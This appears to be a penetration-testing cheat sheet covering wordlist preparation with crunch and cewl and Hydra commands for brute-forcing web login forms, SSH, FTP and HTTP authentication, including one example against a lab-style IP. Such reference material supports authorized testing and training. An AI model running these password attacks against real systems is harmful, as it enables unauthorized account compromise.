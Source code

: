 - #### Wordlists :

```bash
gunzip file # Used to unzip files (i.e: rockyou.txt.gz).

ls /usr/share/wordlists # List all wordlists available.

cp /usr/share/wordlists/rockyou.txt . # Rockyou for logins/pass.
cp /usr/share/wordlists/dirb/common.txt . # Fuzzing websites.
cp /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt . # Fuzzing websites.
```

```bash
# Creates a combinations out of $STRING of MIN and MAX length.
export MIN=6; export MAX=6; export STRING='0123456789abcdef'
crunch $MIN $MAX $STRING -o output.txt
```

```bash
# Creates a wordlist based on a website/ spiders a given URL.
# Scan to a depth of 2 (`-d 2`) and use a minimum word length of 5 (`-m 5`), save the words to a file (`-w output.txt`), targeting the given URL (`https://example.com`).
export URL='http://example.com'
cewl -d 2 -m 5 -w output.txt $URL
```

- #### Hydra :

```bash
# Syntax 
hydra -L userlist.txt -P passlist.txt [service] ... # Wordlist for User and Pass.
hydra -L userlist.txt -p mypassword [service] ... # Wordlist for User.
hydra -l user1 -P passlist.txt [service] ... # Wordlist for Pass.
hydra -l user1 -P passlist.txt [service] -V -I -o file... 
# -V : Verbose, -I : Skip Delay, -o : Save Output.


# http POST/GET Form Bruteforce
# View the request in Network (Insepect Element) to get the request parameters.
export IP=xx.xx.xx.xx
export PORT=8080
hydra -L userlist.txt -P passlist.txt $IP -s $PORT http-post-form "/login.php:username=^USER^&password=^PASS^:Error Message" # It can be http-get-form.

# SSH Bruteforce.
export IP=xx.xx.xx.xx
export PORT=22
hydra -L userlist.txt -P passlist.txt $IP -s $PORT ssh -t4 # t4 for threads, recommanded.

# FTP Bruteforce.
hydra -L userlist.txt -P passlist.txt $IP -s $PORT -t18 ftp

# Credentials POP-UP
hydra -l bob -P ~/Desktop/rockyou.txt 10.10.179.38 http-get /protected -V -I
```
